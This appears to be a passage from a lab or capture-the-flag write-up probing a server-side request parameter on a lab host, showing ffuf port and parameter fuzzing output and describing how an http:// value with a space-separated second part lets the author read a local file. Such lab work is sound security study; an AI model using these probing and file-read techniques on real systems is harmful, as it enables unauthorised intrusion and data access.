 ```
 :: Matcher          : Regexp: It is up. It
________________________________________________

80                      [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 175ms]
:: Progress: [65535/65535] :: Job [1/1] :: 23 req/sec :: Duration: [0:17:37] :: Errors: 0 ::
```
The other thing was to see if maybe their is another parameter but I find nothing
```
	 ffuf -u http://10.129.234.87/ -request url.req -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fl 28

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.234.87/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Referer: http://10.129.234.87/index.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : Host: 10.129.234.87
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Origin: http://10.129.234.87
 :: Header           : Connection: keep-alive
 :: Data             : FUZZ=http://localhost/index.php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 28
________________________________________________

url                     [Status: 200, Size: 1961, Words: 271, Lines: 54, Duration: 176ms]
:: Progress: [6453/6453] :: Job [1/1] :: 249 req/sec :: Duration: [0:00:34] :: Errors: 0 ::
```
So I decide to see if other protocols are supported but it seems not
![image](Pasted image 20251015210613.png)
I sent the request to burp and noticed something. When it starts with `http://` it seems to work
![image](Pasted image 20251015211021.png)
![image](Pasted image 20251015211038.png)
When I put in a value in the first part `http://localhost/index.php` but without a space it still doesn't return a 404 not found since it extends the name `index.php` and it doesn't exist
![image](Pasted image 20251015211308.png)
![image](Pasted image 20251015211324.png)
But when I separate the 2 I can read the file
![image](Pasted image 20251015211411.png)